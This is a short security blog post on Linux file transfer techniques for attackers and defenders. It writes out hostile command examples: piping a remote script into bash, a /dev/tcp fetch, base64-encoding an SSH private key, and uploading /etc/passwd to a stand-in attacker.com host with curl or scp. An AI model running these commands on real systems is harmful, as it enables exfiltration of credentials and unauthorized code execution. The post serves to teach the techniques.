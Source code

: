 ```yaml
---
title: "Linux File Transfer Methods"
date: 2025-03-16 12:00:00 +0000
categories: [Linux, Security]
tags: [File Transfer, Offensive Security, Incident Response]
description: "Exploring various methods to transfer files in Linux, from traditional tools to fileless techniques."
#image: "/assets/images/linux-file-transfer.png"
---
```


## Introduction

Understanding file transfer methods in Linux is crucial for both attackers and defenders. Threat actors often exploit various transfer techniques to deploy malware, while security professionals use them to detect and mitigate attacks.

This post explores multiple ways to transfer files in Linux, including network-based and fileless methods.

## **Common File Transfer Techniques**

### **1. Base64 Encoding/Decoding**
If network access is restricted, files can be encoded in Base64, copied as text, and then decoded on the target machine.
```bash
# Encode a file
cat id_rsa | base64 -w 0

# Decode the file on the target machine
echo 'encoded_string' | base64 -d > id_rsa
```

### **2. Web-Based Downloads**
Using `wget` and `curl`, files can be fetched from a remote server:
```bash
# Using wget
wget https://example.com/file.sh -O /tmp/file.sh

# Using curl
curl -o /tmp/file.sh https://example.com/file.sh
```
For fileless execution, commands can be piped:
```bash
curl https://example.com/script.sh | bash
```

### **3. Bash `/dev/tcp` Transfers**
If common tools are unavailable, Bash can be used to fetch files via raw TCP connections:
```bash
echo -e "GET /file.sh HTTP/1.1\n\n" >&3; cat <&3
```

### **4. SSH & SCP Transfers**
Using SSH, files can be securely transferred between systems:
```bash
# Download a file from a remote machine
scp user@remote:/path/to/file .

# Upload a file to a remote machine
scp file.txt user@remote:/home/user/
```

### **5. Python, PHP, and Ruby Web Servers**
If a compromised machine has Python, PHP, or Ruby, a quick web server can be started:
```bash
# Python 3 Web Server
python3 -m http.server 8000

# PHP Web Server
php -S 0.0.0.0:8000
```
The file can then be retrieved from another machine:
```bash
wget http://target_ip:8000/file.txt
```

## **Upload Operations**
For exfiltrating files from a target, `curl` can be used to upload via a malicious server:
```bash
curl -X POST https://attacker.com/upload -F 'file=@/etc/passwd' --insecure
```
Alternatively, `scp` can be used:
```bash
scp /etc/passwd user@attacker:/tmp/
```

## **Conclusion**
Understanding Linux file transfer techniques is essential for security professionals. Whether downloading, uploading, or performing fileless execution, knowing these methods enhances both attack and defense strategies.

Stay informed and practice ethical security techniques to protect your systems!
